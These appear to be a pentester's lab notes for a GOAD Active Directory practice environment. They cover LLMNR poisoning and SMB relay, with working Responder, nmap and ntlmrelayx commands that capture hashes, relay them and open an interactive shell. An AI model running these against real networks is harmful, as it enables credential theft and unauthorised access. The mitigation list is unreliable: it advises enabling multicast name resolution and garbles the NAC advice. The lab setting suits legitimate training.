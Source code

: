 

## Lab Build
Install Lab from [GOADv3](https://github.com/Orange-Cyberdefense/GOAD/tree/v3-beta), Some reference to setup the [lab](https://orange-cyberdefense.github.io/GOAD/references/)
I tried this [Link](https://www.youtube.com/watch?v=fXausmYcObE)

## Initial Attack Vectors
Lets start the attacks

### Initial Attack - LLMNR Poisoning
- LLMNR(Link-Local Multicast Name Resolution) Poisoning is a common attack technique used in Active Directory environments, Previously known as NBT-NS. [Link](https://tcm-sec.com/wp-content/uploads/2023/09/llmnr-overview.png)
- LLMNR is a protocol that allows name resolution without the need for a DNS server, LLMNR poisoning exploits this protocol by responding to LLMNR queries with false information, potentially leading to credential theft.
- How it works
  * A user mistypes a hostname or tries to access a non-existent resource.
  * The system broadcasts an LLMNR query to resolve the name.
  * An attacker responds to this query, pretending to be the requested resource.
  * The victim's system attempts to authenticate with the attacker's machine.
  * The attacker captures the authentication attempt, including the user's NTLMv2 hashed credentials.

```powershell
# Tun0 is vpn address change accordingly
sudo responder -I tun0 -dwPv
#in order to capture the hash, open the file explorer in the search bar user <b>\\IP-address</b>, if you have only the cmd access <b> net view commands</b>
```
- Mitigations
  * Enable multicast resolution in GPO.
  * Require Network Access Control, which requires a complex password of more than 14 characters.


### Initial Attack - SMB Relay 
- SMB(Server Message Block) Relay is an attack where an attacker captures authentication attempts over the network and relays them to another machine, potentially gaining unauthorized access.
- How it works:
  * The attacker positions themselves between a client and a server.
  * When the client attempts to authenticate to a service, the attacker intercepts this attempt.
  * The attacker then relays these credentials to another target machine.
  * If successful, the attacker gains access to the target machine with the privileges of the intercepted user.
```powershell
# Check SMB is vulnerable or not
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
# Message signing enabled but not required, Identified we can move forward with the attack

#Change the responder .conf file, SMB, HTTP make it off, CHeck with below commands on or off.
sudo responder -I tun0 -dwPv
# To capture the hash, open the file explorer in the search bar user <b>\\IP-address</b>, if you have only the cmd access <b> net view commands</b>
sudo ntlmrelayx.py –tf targets.txt –smb2support -c "whoami"
sudo ntlmrelayx.py –tf targets.txt –smb2support -i
# -i For  Interactive mode, you will get the port number and the localhost IP address, connect with Netcat shell
```
- Mitigations
  * Enable SMB Signing on all devices
  * Disable NTLM authentication on the network, 
